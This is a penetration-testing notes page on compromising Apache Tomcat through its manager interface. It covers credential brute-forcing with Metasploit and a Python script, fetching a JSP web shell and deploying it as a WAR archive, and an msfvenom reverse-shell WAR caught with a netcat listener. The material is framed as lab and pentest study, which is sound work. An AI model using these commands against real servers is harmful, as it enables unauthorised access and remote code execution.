 ```yaml
---
icon: cat
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
  metadata:
    visible: true
---
```


# Tomcat

If we can access the `/manager` or `/host-manager` endpoints, we can likely achieve remote code execution on the Tomcat server. We can use the [auxiliary/scanner/http/tomcat\_mgr\_login](https://www.rapid7.com/db/modules/auxiliary/scanner/http/tomcat_mgr_login/) [metasploit](../../../../toolbox/tooling/exploitation-tools/metasploit/ "mention") module for these purposes, Burp Suite Intruder or any number of scripts to achieve this.

## Login Brute Force

### Metasploit - tomcat\_mgr\_login

We must specify the vhost and the target's IP address to interact with the target properly. We should also set `STOP_ON_SUCCESS` to `true` so the scanner stops when we get a successful login, no use in generating loads of additional requests after a successful login.

```bash
msf6 auxiliary(scanner/http/tomcat_mgr_login) > set VHOST web01.inlanefreight.local
msf6 auxiliary(scanner/http/tomcat_mgr_login) > set RPORT 8180
msf6 auxiliary(scanner/http/tomcat_mgr_login) > set stop_on_success true
msf6 auxiliary(scanner/http/tomcat_mgr_login) > set rhosts 10.129.201.58
```

```
msf6 auxiliary(scanner/http/tomcat_mgr_login) > run

<snip>
[-] 10.129.201.58:8180 - LOGIN FAILED: root:s3cret (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: root:vagrant (Incorrect)
[+] 10.129.201.58:8180 - Login Successful: tomcat:admin
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

### Python Script: Tomcat-Manager-Bruteforce

{% hint style="info" %}
## Script Download:

[https://github.com/b33lz3bub-1/Tomcat-Manager-Bruteforce](https://github.com/b33lz3bub-1/Tomcat-Manager-Bruteforce)
{% endhint %}

```bash
python3 mgr_brute.py -U http://tomcat.acme.local:8180/ -P /manager -u /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_users.txt -p /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_pass.txt
```

```
[+] Atacking.....

[+] Success!!
[+] Username : b'tomcat'
[+] Password : b'admin'
```

## WAR File Upload

Many Tomcat installations provide a GUI interface to manage the application. This interface is available at `/manager/html` by default, which only users assigned the `manager-gui` role are allowed to access. Valid manager credentials can be used to upload a packaged Tomcat application (.WAR file) and compromise the application.

A WAR, or Web Application Archive, is used to quickly deploy web applications and backup storage. The manager web app allows us to instantly deploy new applications by uploading WAR files. A WAR file can be created using the zip utility.

A JSP web shell such as [this](https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/jsp/cmd.jsp) can be downloaded and placed within the archive.

{% code title="Download Web Shell" %}
```bash
wget https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/jsp/cmd.jsp
```
{% endcode %}

{% code title="Archive" %}
```bash
zip -r backup.war cmd.jsp 
```
{% endcode %}

Click on `Browse` to select the .war file and then click on `Deploy`.

<figure><img src="../../../../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

This file is uploaded to the manager GUI, after which the `/backup` application will be added to the table.

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

If we click on `backup`, we will get redirected to `http://web01.acme.com:8180/backup/` and get a `404 Not Found` error. We need to specify the `cmd.jsp` file in the URL as well. Browsing to `http://web01.acme.com:8180/backup/cmd.jsp` will present us with a web shell that we can use to run commands on the Tomcat server.

From here, we could upgrade our web shell to an interactive reverse shell and continue.

```bash
curl http://web01.acme.com:8180/backup/cmd.jsp?cmd=id
```

{% hint style="info" %}
## Clean Up & Note Taking

To clean up after ourselves, we can go back to the main Tomcat Manager page and click the `Undeploy` button next to the `backups` application after, of course, noting down the file and upload location for our report, which in our example is `/opt/tomcat/apache-tomcat-10.0.10/webapps`.

If we do an `ls` on that directory from our web shell, we'll see the uploaded `backup.war` file and the `backup` directory containing the `cmd.jsp` script and `META-INF` created after the application deploys. Clicking on `Undeploy` will typically remove the uploaded WAR archive and the directory associated with the application.
{% endhint %}

## Creating WAR Files

### MSFVenom

We could also use [msfvenom.md](../../../../toolbox/tooling/exploitation-tools/metasploit/msfvenom.md "mention") to generate a malicious WAR file. The payload [java/jsp\_shell\_reverse\_tcp](https://github.com/iagox86/metasploit-framework-webexec/blob/master/modules/payloads/singles/java/jsp_shell_reverse_tcp.rb) will execute a reverse shell through a JSP file. Browse to the Tomcat console and deploy this file. Tomcat automatically extracts the WAR file contents and deploys it.

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.15 LPORT=4443 -f war > backup.war
```

Start a Netcat listener and click on `/backup` to execute the shell.

```bash
nc -lnvp 4443
```

{% hint style="success" %}
## Utilising Metasploit

The [multi/http/tomcat\_mgr\_upload](https://www.rapid7.com/db/modules/exploit/multi/http/tomcat_mgr_upload/) [metasploit](../../../../toolbox/tooling/exploitation-tools/metasploit/ "mention") module can be used to automate this process.
{% endhint %}

{% hint style="danger" %}
## Web Shell Warning

When we upload web shells (especially on externals), we want to prevent unauthorised access. We should take certain measures such as a randomised file name (i.e., MD5 hash), limiting access to our source IP address, and even password protecting it. We don't want an attacker to come across our web shell and leverage it to gain their own foothold.
{% endhint %}
